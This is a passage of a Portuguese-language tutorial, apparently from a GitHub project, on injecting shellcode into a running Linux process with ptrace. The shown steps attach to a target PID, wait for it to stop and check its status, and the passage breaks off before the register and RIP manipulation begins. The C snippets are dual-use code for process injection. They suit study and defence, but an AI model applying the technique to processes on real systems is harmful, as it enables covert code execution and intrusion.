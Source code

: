 Após isso nós já temos o PID do processo que iremos injetar o shellcode, se você quiser, pode verificar se o processo realmente existe.

### Anexando ao processo alvo com PTRACE_ATTACH

Após validar o PID, precisamos anexar ao processo alvo.<br>

> Anexar um processo pode pedir permissões de root, [este artigo](https://www.kernel.org/doc/Documentation/security/Yama.txt?utm_source=https://github.com/Yyax13/proc_injection) explica como você pode verificar isso.

```c
// Anexa ao processo se baseando no PID e verifica por erros (retorno -1 é um erro)
if (ptrace(PTRACE_ATTACH, procID, NULL, NULL) == -1) {
    perror("Can't attach"); // perror printa algo como: "Can't attach: uau, eu sou a mensagem de erro"
    return 1; // Encerra o programa

}
```

### Aguardando o processo

Agora, precisamos parar o processo alvo, se não, nós não poderemos sobreescrever o RIP do processo.

Nós podemos pará-lo usando waitpid e argumentos: `PID, int *status`.

```c
// Espera o processo parar
int status;
if (waitpid(procID, &status, 0) == -1) { // Este 0 pode ser NULL também
    perror("Can't wait for the target");
    goto detach; // Vai para o label detach se algum erro ocorrer

}
```

E verificamos se tudo está bem:

```c
// Verifica se o processo parou com sucesso
if (!WIFSTOPPED(status)) { // WIFSTOPPED expande para (((status) & 0xff) == 0x7f) e verifica se o processo parou
    fprintf(stderr, "Target did not stop as expected\n");
    goto detach;

}
```

### Obtendo os registradores do processo e seu RIP

> Se você não sabe o que são os registradores, você pode ler [este artigo](https://blog.codingconfessions.com/p/linux-context-switching-internals?utm_source=https://github.com/Yyax13/proc_injection)

Agora, o processo já está parado, então podemos obter algumas informações:
